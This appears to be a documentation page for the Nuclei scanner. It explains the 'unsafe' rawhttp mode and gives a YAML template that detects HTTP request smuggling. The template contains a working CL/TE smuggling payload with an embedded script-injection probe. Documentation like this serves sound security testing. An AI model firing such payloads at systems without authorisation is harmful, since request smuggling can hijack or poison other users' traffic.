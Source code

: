 ```yaml
---
title: "Unsafe HTTP Requests"
---
```


Nuclei supports [rawhttp](https://github.com/projectdiscovery/rawhttp) for complete request control and customization allowing **any kind of malformed requests** for issues like HTTP request smuggling, Host header injection, CRLF with malformed characters and more.

**rawhttp** library is disabled by default and can be enabled by including `unsafe: true` in the request block. 

Here is an example of HTTP request smuggling detection template using `rawhttp`. 

```yaml
http:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'
```
